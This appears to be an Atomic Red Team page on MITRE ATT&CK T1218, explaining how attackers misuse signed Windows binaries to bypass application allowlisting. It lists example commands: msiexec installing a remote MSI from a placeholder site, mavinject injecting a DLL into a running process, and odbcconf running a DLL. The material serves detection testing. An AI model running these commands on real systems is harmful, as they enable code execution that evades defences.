 # T1218 - Signed Binary Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1218)
<blockquote>Binaries signed with trusted digital certificates can execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application whitelisting and signature validation on systems. This technique accounts for proxy execution methods that are not already accounted for within the existing techniques.

### Msiexec.exe
Msiexec.exe is the command-line Windows utility for the Windows Installer. Adversaries may use msiexec.exe to launch malicious MSI files for code execution. An adversary may use it to launch local or network accessible MSI files.(Citation: LOLBAS Msiexec)(Citation: Rancor Unit42 June 2018)(Citation: TrendMicro Msiexec Feb 2018) Msiexec.exe may also be used to execute DLLs.(Citation: LOLBAS Msiexec)

* <code>msiexec.exe /q /i "C:\path\to\file.msi"</code>
* <code>msiexec.exe /q /i http[:]//site[.]com/file.msi</code>
* <code>msiexec.exe /y "C:\path\to\file.dll"</code>

### Mavinject.exe
Mavinject.exe is a Windows utility that allows for code execution. Mavinject can be used to input a DLL into a running process. (Citation: Twitter gN3mes1s Status Update MavInject32)

* <code>"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" &lt;PID&gt; /INJECTRUNNING &lt;PATH DLL&gt;</code>
* <code>C:\Windows\system32\mavinject.exe &lt;PID&gt; /INJECTRUNNING &lt;PATH DLL&gt;</code>

### SyncAppvPublishingServer.exe
SyncAppvPublishingServer.exe can be used to run PowerShell scripts without executing powershell.exe. (Citation: Twitter monoxgas Status Update SyncAppvPublishingServer)

### Odbcconf.exe
Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The utility can be misused to execute functionality equivalent to [Regsvr32](https://attack.mitre.org/techniques/T1117) with the REGSVR option to execute a DLL.(Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017)

* <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>

Several other binaries exist that may be used to perform similar behavior. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - mavinject - Inject DLL into running process](#atomic-test-1---mavinject---inject-dll-into-running-process)
